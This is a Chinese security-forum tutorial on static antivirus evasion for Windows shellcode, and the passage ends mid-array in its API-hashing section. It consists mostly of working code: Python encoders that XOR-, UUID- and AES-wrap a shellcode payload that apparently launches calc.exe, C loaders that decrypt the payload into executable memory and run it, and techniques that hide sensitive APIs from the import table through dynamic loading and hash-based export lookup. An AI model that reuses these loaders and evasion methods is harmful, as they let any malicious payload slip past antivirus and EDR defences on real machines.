

# Windows 静态恶意代码免杀与逃逸技术（一）-先知社区

> **来源**: https://xz.aliyun.com/news/18356  
> **文章ID**: 18356

---

# Windows 静态恶意代码免杀与逃逸技术（一）

#### 免责声明

#### 本文仅用于学习和技术研究，读者利用本文所提供的信息造成的任何直接或间接的影响和损失均由该读者负责，文章作者以及公众号不为此承担任何责任，请遵守国家网络安全法，维护良好的网络环境。

## 为什么要研究免杀技术？

当前主流企业环境中普遍部署了多种安全防御体系，包括：

* 杀毒软件（如 Windows Defender、Kaspersky 等）
* EDR（终端检测与响应系统）
* 沙盒分析系统、IPS/IDS、主机防火墙等

面对日益复杂和智能化的安全检测机制，如何有效绕过这些静态和动态的检测，成为漏洞验证、安全测试和红队攻防中的关键能力之一。

本文将重点讲解shellcode免杀的基本原理与逃逸技巧适用于初学免杀的师傅。

## 什么是静态免杀？

**静态免杀（Static AV Evasion）** 是指在目标程序尚未执行的情况下，依靠对其文件结构、元数据、字符串特征等静态属性的分析，来避免被安全软件检测的一种免杀方式。

其核心目标是：“在不运行代码的前提下，使程序看起来像一个正常文件。”

## 常见的静态检测特征

|  |  |
| --- | --- |
| **类型** | **详细描述** |
| 敏感字符串 | powershell, cmd.exe, CreateRemoteThread, 网络IP 等 |
| 导入表 (IAT) 出现可疑 API | VirtualAlloc, WriteProcessMemory, LoadLibraryA 等 |
| YARA 规则匹配 | 根据总结的恶意模式给出符合值 |
| 文件声明信息 | 系统类型、编译器等声明字段 |
| Section 特征 | .text, .rdata 等软件段的名称和属性 |
| 资源/绑定信息 | 不合理的应用软件进程对应关联 |
| IOC 标识 | 通常被用于后段防御的特征信息 |

所以我们要做的，就是改变“外观”、打乱特征，隐藏意图，使文件看起来“平常无奇”。

## Shellcode 编码和加密技术

### 1.1 XOR 编码

使用单字节密钥对原始 shellcode 逐字节异或编码，简单高效但容易被识别。

```
def xor_encode(shellcode: bytes, key: int) -> str:
     encoded = []
     for b in shellcode:
         encoded.append(f"0x{b ^ key:02x}")
     return ", ".join(encoded)
 
 if __name__ == "__main__":
     raw_shellcode = bytes([
         0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00,
         0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
         0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
         0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
         0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7,
         0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
         0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41,
         0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
         0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
         0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
         0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67,
         0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
         0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56,
         0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
         0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
         0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
         0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24,
         0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
         0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41,
         0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
         0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
         0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
         0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83,
         0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
         0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF,
         0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
         0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
         0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
         0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2,
         0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
         0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C,
         0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
         0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
         0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
         0x65, 0x78, 0x65, 0x00
     ])
 
     key = 0xAA  # XOR密钥
     encoded = xor_encode(raw_shellcode, key)
 
     print("XOR shellcode:")
     print(encoded)
```

```
#include <windows.h>
 
 unsigned char xor_shellcode[] = {
     0x56, 0xe2, 0x29, 0x4e, 0x5a, 0x42, 0x6a, 0xaa, 0xaa, 0xaa, 0xeb, 0xfb, 0xeb, 0xfa, 0xf8, 0xfb, 0xfc, 0xe2, 0x9b, 0x78, 0xcf, 0xe2, 0x21, 0xf8, 0xca, 0xe2, 0x21, 0xf8, 0xb2, 0xe2, 0x21, 0xf8, 0x8a, 0xe2, 0x21, 0xd8, 0xfa, 0xe2, 0xa5, 0x1d, 0xe0, 0xe0, 0xe7, 0x9b, 0x63, 0xe2, 0x9b, 0x6a, 0x06, 0x96, 0xcb, 0xd6, 0xa8, 0x86, 0x8a, 0xeb, 0x6b, 0x63, 0xa7, 0xeb, 0xab, 0x6b, 0x48, 0x47, 0xf8, 0xeb, 0xfb, 0xe2, 0x21, 0xf8, 0x8a, 0x21, 0xe8, 0x96, 0xe2, 0xab, 0x7a, 0x21, 0x2a, 0x22, 0xaa, 0xaa, 0xaa, 0xe2, 0x2f, 0x6a, 0xde, 0xcd, 0xe2, 0xab, 0x7a, 0xfa, 0x21, 0xe2, 0xb2, 0xee, 0x21, 0xea, 0x8a, 0xe3, 0xab, 0x7a, 0x49, 0xfc, 0xe2, 0x55, 0x63, 0xeb, 0x21, 0x9e, 0x22, 0xe2, 0xab, 0x7c, 0xe7, 0x9b, 0x63, 0xe2, 0x9b, 0x6a, 0x06, 0xeb, 0x6b, 0x63, 0xa7, 0xeb, 0xab, 0x6b, 0x92, 0x4a, 0xdf, 0x5b, 0xe6, 0xa9, 0xe6, 0x8e, 0xa2, 0xef, 0x93, 0x7b, 0xdf, 0x72, 0xf2, 0xee, 0x21, 0xea, 0x8e, 0xe3, 0xab, 0x7a, 0xcc, 0xeb, 0x21, 0xa6, 0xe2, 0xee, 0x21, 0xea, 0xb6, 0xe3, 0xab, 0x7a, 0xeb, 0x21, 0xae, 0x22, 0xe2, 0xab, 0x7a, 0xeb, 0xf2, 0xeb, 0xf2, 0xf4, 0xf3, 0xf0, 0xeb, 0xf2, 0xeb, 0xf3, 0xeb, 0xf0, 0xe2, 0x29, 0x46, 0x8a, 0xeb, 0xf8, 0x55, 0x4a, 0xf2, 0xeb, 0xf3, 0xf0, 0xe2, 0x21, 0xb8, 0x43, 0xfd, 0x55, 0x55, 0x55, 0xf7, 0xe2, 0x10, 0xab, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xe2, 0x27, 0x27, 0xab, 0xab, 0xaa, 0xaa, 0xeb, 0x10, 0x9b, 0x21, 0xc5, 0x2d, 0x55, 0x7f, 0x11, 0x5a, 0x1f, 0x08, 0xfc, 0xeb, 0x10, 0x0c, 0x3f, 0x17, 0x37, 0x55, 0x7f, 0xe2, 0x29, 0x6e, 0x82, 0x96, 0xac, 0xd6, 0xa0, 0x2a, 0x51, 0x4a, 0xdf, 0xaf, 0x11, 0xed, 0xb9, 0xd8, 0xc5, 0xc0, 0xaa, 0xf3, 0xeb, 0x23, 0x70, 0x55, 0x7f, 0xc9, 0xcb, 0xc6, 0xc9, 0x84, 0xcf, 0xd2, 0xcf, 0xaa };
 
 unsigned int sc_len = sizeof(xor_shellcode);
 unsigned char key = 0xAA;  // 同 Python 中一致
 
 void xor_decrypt(unsigned char* buf, unsigned int len, unsigned char key) {
     for (unsigned int i = 0; i < len; i++) {
         buf[i] ^= key;
     }
 }
 int main() {
     LPVOID mem = VirtualAlloc(NULL, sc_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
     memcpy(mem, xor_shellcode, sc_len);
     xor_decrypt((unsigned char*)mem, sc_len, key);
 
     // 执行 shellcode
     ((void(*)())mem)();
 
     return 0;
 }
```

### 1.2 UUID 编码

将 shellcode 按 16 字节分块编码为 UUID 字符串，可规避正则匹配与部分 YARA 检测。

```
import uuid
 
 # 原始 shellcode（前面只截取部分）
 shellcode = bytes([
     0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00,
 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
 0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7,
 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
 0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41,
 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67,
 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
 0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56,
 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
 0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24,
 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41,
 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
 0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83,
 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
 0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF,
 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2,
 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
 0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C,
 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
 0x65, 0x78, 0x65, 0x00
 ])
 
 def chunk_and_encode(shellcode):
     # pad shellcode to 16-byte multiple
     if len(shellcode) % 16 != 0:
         shellcode += b"\x90" * (16 - len(shellcode) % 16)
     uuids = []
     for i in range(0, len(shellcode), 16):
         chunk = shellcode[i:i+16]
         u = uuid.UUID(bytes_le=chunk)  # 使用小端字节顺序
         uuids.append(str(u))
     return uuids
 
 uuids = chunk_and_encode(shellcode)
 
 print("UUID shellcode:")
 for u in uuids:
     print(f'"{u}",')
```

```
#include <windows.h>
 #include <stdio.h>
 #include <rpc.h>  // for UuidFromStringA
 #pragma comment(lib, "Rpcrt4.lib")
 
 const char* uuids[] = {
     "e48348fc-e8f0-00c0-0000-415141505251",
     "d2314856-4865-528b-6048-8b5218488b52",
     "728b4820-4850-b70f-4a4a-4d31c94831c0",
     "7c613cac-2c02-4120-c1c9-0d4101c1e2ed",
     "48514152-528b-8b20-423c-4801d08b8088",
     "48000000-c085-6774-4801-d0508b481844",
     "4920408b-d001-56e3-48ff-c9418b348848",
     "314dd601-48c9-c031-ac41-c1c90d4101c1",
     "f175e038-034c-244c-0845-39d175d85844",
     "4924408b-d001-4166-8b0c-48448b401c49",
     "8b41d001-8804-0148-d041-5841585e595a",
     "59415841-5a41-8348-ec20-4152ffe05841",
     "8b485a59-e912-ff57-ffff-5d48ba010000",
     "00000000-4800-8d8d-0101-000041ba318b",
     "d5ff876f-f0bb-a2b5-5641-baa695bd9dff",
     "c48348d5-3c28-7c06-0a80-fbe07505bb47",
     "6a6f7213-5900-8941-daff-d563616c632e",
     "00657865-9090-9090-9090-909090909090",
 };
 
 int main() {
     SIZE_T total_len = sizeof(uuids) / sizeof(uuids[0]) * 16;
     LPVOID mem = VirtualAlloc(NULL, total_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
     if (!mem) return -1;
 
     BYTE* cursor = (BYTE*)mem;
 
     for (int i = 0; i < sizeof(uuids) / sizeof(uuids[0]); i++) {
         UUID uuid;
         if (UuidFromStringA((RPC_CSTR)uuids[i], &uuid) == RPC_S_OK) {
             memcpy(cursor, &uuid, 16);
             cursor += 16;
         }
         else {
             printf("Failed to parse UUID %d
", i);
         }
     }
 
     // 执行 shellcode
     ((void(*)())mem)();
 
     return 0;
 }
```

### 1.3 SGN 编码

基于 <https://github.com/EgeBalci/sgn> 的编码工具，编码后 shellcode 可直接执行，无需解码。

建议和其他编码加密技术混合使用效果挺不错的。

### 1.4 AES 加密

使用对称加密方式对 shellcode 进行加密，在执行前进行解密。

推荐使用开源库：<https://github.com/kokke/tiny-AES-c>，兼容 C 与 C++。

```
from Crypto.Cipher import AES
 from Crypto.Util.Padding import pad
 import os
 
 key = b"abcdefg123456789"  
 iv  = b"abcdefg123456789"  
 
 
 shellcode = bytes([
 0xE8, 0x30, 0x01, 0x00, 0x00, 0x17, 0xDA, 0x8F,
 0x91, 0x11, 0x71, 0xA4, 0xF4, 0x02, 0x00, 0x20,
 0x35, 0x72, 0xE0, 0xE7, 0xD0, 0x00, 0x44, 0x30,
 0x24, 0x0A, 0x44, 0x02, 0x24, 0x0A, 0xE2, 0xF6,
 0x3E, 0x4E, 0x22, 0x64, 0xE7, 0xE3, 0xC3, 0xAB,
 0x6B, 0x6B, 0x6B, 0x6B, 0x88, 0xD9, 0x18, 0xA4,
 0xF4, 0x19, 0x4F, 0xE7, 0xD6, 0xFA, 0x1F, 0x47,
 0x28, 0x7A, 0x9A, 0xCC, 0xA7, 0xC5, 0xDD, 0x81,
 0xEA, 0xB8, 0x18, 0x4E, 0x21, 0x53, 0xF3, 0xA3,
 0x42, 0xE1, 0x2B, 0x59, 0xD2, 0xD3, 0x9A, 0x90,
 0x21, 0x99, 0xC5, 0xF9, 0x60, 0x18, 0xC2, 0xEE,
 0xCC, 0x0D, 0xCA, 0xFB, 0xF4, 0xB5, 0x32, 0xF3,
 0xC9, 0x80, 0xD0, 0x11, 0xB0, 0xE6, 0x49, 0xDB,
 0xFB, 0x6C, 0xCE, 0xE2, 0xA8, 0x09, 0xC5, 0x4E,
 0xCE, 0x46, 0x46, 0x46, 0xB6, 0xFC, 0x79, 0x31,
 0xB9, 0xDE, 0x94, 0x15, 0x25, 0x61, 0xEA, 0x92,
 0x02, 0x30, 0x3B, 0x7B, 0x5B, 0x10, 0x91, 0xBD,
 0x5E, 0x88, 0x3E, 0x31, 0xF6, 0xA7, 0xCC, 0xF8,
 0x60, 0x26, 0x87, 0x49, 0xE2, 0xC3, 0x8A, 0xA0,
 0x11, 0x89, 0xA5, 0xE2, 0x93, 0x40, 0x4D, 0x0A,
 0x8B, 0x2A, 0xD2, 0xC8, 0x3D, 0xCC, 0x7E, 0x7D,
 0x29, 0x0D, 0x85, 0xBE, 0x67, 0x34, 0xB1, 0x49,
 0x89, 0xC9, 0x42, 0xFA, 0xDC, 0x95, 0x14, 0x38,
 0x5C, 0x19, 0x8A, 0x76, 0xBE, 0xE4, 0x6F, 0x0F,
 0x83, 0xC8, 0x29, 0xF9, 0xA6, 0x2D, 0x29, 0x11,
 0x59, 0x58, 0x06, 0xB7, 0xEF, 0x0E, 0xA6, 0xC6,
 0x1F, 0x45, 0xF4, 0x2A, 0x4B, 0x90, 0x2D, 0x67,
 0x2F, 0x2C, 0x80, 0x1E, 0x5F, 0xF1, 0xCE, 0x8E,
 0xD4, 0x65, 0xB8, 0xD2, 0x84, 0xEF, 0xFD, 0xEA,
 0x41, 0x40, 0x3F, 0x3E, 0x53, 0xDB, 0x61, 0x60,
 0x60, 0x60, 0x60, 0x60, 0x60, 0x60, 0x50, 0x06,
 0x73, 0xFC, 0xFD, 0xFC, 0xFC, 0xFA, 0xBB, 0xE1,
 0xCE, 0xB9, 0xC8, 0xAF, 0xAE, 0x7B, 0x20, 0xAE,
 0xDB, 0x75, 0xA3, 0x92, 0x24, 0x78, 0x8D, 0x0E,
 0x6B, 0x6A, 0x3F, 0x77, 0xF4, 0x20, 0xF0, 0xC0,
 0x36, 0x4A, 0x40, 0x3E, 0x05, 0x05, 0x6E, 0x0B,
 0x2E, 0x45, 0x96, 0x1A, 0x61, 0x0B, 0xEB, 0x30,
 0x61, 0xD4, 0xF0, 0xEF, 0xB4, 0x17, 0x66, 0xC4,
 0x57, 0x71, 0xE4, 0x52, 0x37, 0x4D, 0x0F, 0x45,
 0xFF, 0x5E, 0xEB, 0x04, 0x29, 0x6D, 0x62, 0x17,
 0x4D, 0x0F, 0x4A, 0xED, 0x81, 0x2E, 0xD6, 0x25,
 0x58, 0x49, 0xEB, 0x04, 0xE3, 0xBC, 0x14, 0x3E,
 0x4D, 0x0F, 0x4E, 0xD2, 0x81, 0x6E, 0x04, 0x4A,
 0xAF, 0x8E, 0xF3, 0xEB, 0x04, 0x9D, 0x09, 0x3C,
 0x88, 0xC1, 0x4E, 0x08, 0x02, 0x4D, 0x0F, 0x42,
 0xD2, 0xEB, 0x04, 0x2D, 0x2F, 0x47, 0x9C, 0x81,
 0x46, 0x0C, 0xA3, 0x28, 0x18, 0x2F, 0xFF, 0xE6 ])
 
 
 cipher = AES.new(key, AES.MODE_CBC, iv)
 enc = cipher.encrypt(pad(shellcode, 16))
 
 
 def to_c_array(data):
     return ", ".join(f"0x{b:02x}" for b in data)
 
 print("AES shellcode：")
 print(to_c_array(enc))
 print(f"unsigned int shellcode_len = {len(enc)};")
```

```
#include <windows.h>
 #include <stdio.h>
 #include <string.h>
 #include "aes.h"
 
 uint8_t key[] = "abcdefg123456789";
 uint8_t iv[] = "abcdefg123456789";
 
 /* ===== 你的加密 shellcode 原样放这里 ===== */
 unsigned char encrypted_shellcode[] = {
 0xc9, 0xf2, 0x7e, 0x49, 0xbe, 0x34, 0x79, 0x80, 0xf1, 0xe0, 0x44, 0xc7, 0xdf, 0x6e, 0xf9, 0x20, 0x2d, 0x1e, 0xc6, 0x84, 0x9d, 0xfc, 0x99, 0xeb, 0x13, 0x46, 0x08, 0xe3, 0x10, 0x96, 0x49, 0xd6, 0xf5, 0xeb, 0x78, 0x81, 0x4b, 0x67, 0x8d, 0x2c, 0xb7, 0x5e, 0x75, 0x08, 0x9e, 0x8a, 0xf3, 0x23, 0x8d, 0x59, 0xe1, 0x3b, 0xab, 0x8b, 0x60, 0x08, 0xa3, 0x53, 0xc0, 0xa1, 0x8c, 0xbd, 0xf9, 0x1c, 0x7e, 0x0c, 0x97, 0x62, 0x63, 0x5c, 0x01, 0xfd, 0xb2, 0x1a, 0x07, 0x27, 0xe1, 0xb0, 0xf8, 0x45, 0x38, 0xac, 0x33, 0xa9, 0x2f, 0xd3, 0xf3, 0xe5, 0x66, 0xc8, 0x46, 0xc9, 0x69, 0xaa, 0xf8, 0x89, 0x8b, 0xf2, 0xbe, 0xf7, 0x16, 0xc1, 0x0a, 0x02, 0xab, 0x93, 0x83, 0xfc, 0x6e, 0x7e, 0xd9, 0xea, 0x88, 0xf1, 0x2b, 0xf9, 0xbc, 0xc3, 0x3d, 0x8f, 0xe6, 0x11, 0x12, 0xa6, 0x5b, 0x2d, 0x1d, 0x33, 0xe2, 0x92, 0xaf, 0x37, 0x0d, 0xfc, 0x5b, 0xa1, 0xe7, 0xcc, 0xb4, 0x34, 0xe7, 0x40, 0x63, 0x77, 0x4e, 0xc8, 0xc8, 0x15, 0xcf, 0xa2, 0x9a, 0x9c, 0xa9, 0xf3, 0xa5, 0x91, 0x15, 0x34, 0x61, 0xf1, 0xc4, 0x32, 0x7e, 0x02, 0x22, 0x21, 0x5e, 0x4d, 0xff, 0x54, 0x69, 0x71, 0x56, 0xcb, 0xe3, 0x55, 0x1d, 0x6b, 0xff, 0xbe, 0x04, 0x34, 0xdd, 0x8a, 0x16, 0xa2, 0x60, 0x81, 0x47, 0xc6, 0x25, 0xfb, 0x47, 0x1a, 0x79, 0x7e, 0x09, 0x9e, 0x4a, 0x6d, 0xac, 0xd4, 0xde, 0xb7, 0xde, 0x0d, 0xe0, 0x9a, 0x63, 0x9f, 0x8d, 0xdb, 0x73, 0x62, 0x92, 0xc0, 0x48, 0xc1, 0x64, 0x6c, 0xca, 0xc1, 0x01, 0xb8, 0x31, 0xf2, 0x84, 0xd5, 0xb9, 0x17, 0x00, 0x45, 0xfd, 0x20, 0xd3, 0xff, 0xaf, 0xdc, 0x4e, 0x7c, 0xae, 0x41, 0x02, 0x74, 0xca, 0x20, 0x7a, 0x39, 0x51, 0x60, 0x16, 0xc4, 0x56, 0x38, 0xc3, 0x58, 0x76, 0xd7, 0xfd, 0x5e, 0xdb, 0x4e, 0xa8, 0x34, 0x95, 0xff, 0x88, 0x5a, 0x9d, 0x84, 0x48, 0x9b, 0x32, 0xd6, 0xa2, 0x76, 0xd4, 0x23, 0xae, 0xa8, 0xe8, 0x7f, 0xfa, 0xce, 0xbc, 0xfc, 0x58, 0x63, 0xb1, 0x68, 0x07, 0x8e, 0xab, 0x7b, 0xb7, 0xd2, 0x57, 0xc7, 0x57, 0xac, 0x42, 0x45, 0x92, 0x68, 0x6e, 0xac, 0x44, 0x98, 0x10, 0x4a, 0xd3, 0x10, 0x7b, 0xc6, 0x97, 0x76, 0x56, 0xf9, 0x09, 0x27, 0x5f, 0x5d, 0xdb, 0x56, 0xef, 0x97, 0x2c, 0xb1, 0xc2, 0xa7, 0x07, 0xbf, 0xeb, 0x0b, 0x42, 0x4d, 0x82, 0x3a, 0x76, 0x49, 0x3c, 0x57, 0x5a, 0x42, 0x78, 0x0f, 0xd5, 0xb2, 0xa9, 0x59, 0xf7, 0x87, 0xca, 0x03, 0x20, 0xa9, 0xb6, 0x7d, 0x73, 0x4c, 0x29, 0x0d, 0x55, 0x4b, 0xd2, 0xb5, 0x2b, 0x93, 0xa9, 0xce, 0xb4, 0xfd, 0x71, 0x01, 0xdb, 0x3f, 0x95, 0x4a, 0x1a, 0xb5, 0x5c, 0x0a, 0x4c, 0x83 };
 unsigned int shellcode_len = sizeof(encrypted_shellcode);
 
 void aes_decrypt(unsigned char* data, unsigned int len)
 {
     struct AES_ctx ctx;
     AES_init_ctx_iv(&ctx, key, iv);
     AES_CBC_decrypt_buffer(&ctx, data, len);
 }
 
 int main() {
     LPVOID mem = VirtualAlloc(NULL, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
     if (!mem) return -1;
     memcpy(mem, encrypted_shellcode, shellcode_len);
     aes_decrypt((unsigned char*)mem, shellcode_len);
 
     ((void(*)())mem)();
 
     return 0;
 }
```

**这边也是就列出个我个人比较喜欢使用的，加密方面各位师傅也可以自己研究下什么好用还有很多编码方式如mac地址，ipv4/v6，base64编码等等，这边就不全部列出来了**

## IAT 检查与逃避技术

Windows PE 文件会在导入表（Import Address Table）中记录程序运行前所需加载的函数（如：LoadLibraryA、GetProcAddress、WinExec、VirtualAlloc、WriteProcessMemory 等） 安全产品常通过扫描导入表中是否包含这些典型敏感API来判断程序是否具有恶意行为



### 2.1 延迟加载技术

运行时使用 LoadLibraryA 和 GetProcAddress 进行动态加载，避免在 IAT 中显示出光标函数。

```
#include <windows.h>
 
 typedef LPVOID(WINAPI* pVirtualAlloc)(
     LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
 
 int main() {
     HMODULE hKernel32 = LoadLibraryA("kernel32.dll");
     if (hKernel32) {
         pVirtualAlloc MyVirtualAlloc = (pVirtualAlloc)GetProcAddress(hKernel32, "VirtualAlloc");
         LPVOID mem = MyVirtualAlloc(NULL, 1024, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
     }
     return 0;
 }
```

在程序初始化时不导入可疑API，而是在运行时动态获取其地址，绕过静态IAT检查

### 2.2 API 哈希调用技术

GetProcAddress 同样容易暴露，因此可以进一步隐藏：自定义实现函数查找逻辑，通过 API 哈希值匹配导出表中的函数名，进而得到函数地址。现在就留个实现，后续会写篇详细解释API Hashing

```
#include <windows.h>
 #include <stdio.h>
 
 typedef void* (WINAPI* VIRTUALALLOC)(void*, SIZE_T, DWORD, DWORD);
 typedef void* (WINAPI* RtlMoveMemory)(void*, const void*, SIZE_T);
 
 #define HASH_VIRTUALALLOC 0x382C0F97  
 #define HASH_RtlMoveMemory 0x04027607
 
 // 根据hash查找函数地址（遍历kernel32.dll或ntdll.dll导出表）
 FARPROC GetProcAddressByHash(HMODULE hModule, unsigned int target_hash) {
     if (!hModule) return NULL;
     unsigned char* base = (unsigned char*)hModule;
     IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)base;
     IMAGE_NT_HEADERS* ntHeaders = (IMAGE_NT_HEADERS*)(base + dosHeader->e_lfanew);
     IMAGE_EXPORT_DIRECTORY* exportDir = (IMAGE_EXPORT_DIRECTORY*)(base +
         ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
 
     DWORD* nameRvas = (DWORD*)(base + exportDir->AddressOfNames);
     WORD* ordinals = (WORD*)(base + exportDir->AddressOfNameOrdinals);
     DWORD* funcRvas = (DWORD*)(base + exportDir->AddressOfFunctions);
 
     for (DWORD i = 0; i < exportDir->NumberOfNames; i++) {
         char* funcName = (char*)(base + nameRvas[i]);
         unsigned int hash = 5381;
         int c;
         const char* p = funcName;
         while ((c = *p++))
             hash = ((hash << 5) + hash) + c;
 
         if (hash == target_hash) {
             WORD ordinal = ordinals[i];
             return (FARPROC)(base + funcRvas[ordinal]);
         }
     }
     return NULL;
 }
 
 int main() {
     HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
     HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
 
     VIRTUALALLOC pVirtualAlloc = (VIRTUALALLOC)GetProcAddressByHash(hKernel32, HASH_VIRTUALALLOC);
     RtlMoveMemory pRtlMoveMemory = (RtlMoveMemory)GetProcAddressByHash(hNtdll, HASH_RtlMoveMemory);
 
     if (!pVirtualAlloc || !pRtlMoveMemory) {
         printf("API获取失败
");
         return -1;
     }
 
     unsigned char shellcode[] = { 0xE8, 0x30, 0x01, 0x00, 0x00, 0x17, 0xDA, 0x8F,
     0x91, 0x11, 0x71, 0xA4, 0xF4, 0x02, 0x00, 0x20,
     0x35, 0x72, 0xE0, 0xE7, 0xD0, 0x00, 0x44, 0x30,
     0x24, 0x0A, 0x44, 0x02, 0x24, 0x0A, 0xE2, 0xF6,
     0x3E, 0x4E, 0x22, 0x64, 0xE7, 0xE3, 0xC3, 0xAB,
     0x6B, 0x6B, 0x6B, 0x6B, 0x88, 0xD9, 0x18, 0xA4,
     0xF4, 0x19, 0x4F, 0xE7, 0xD6, 0xFA, 0x1F, 0x47,
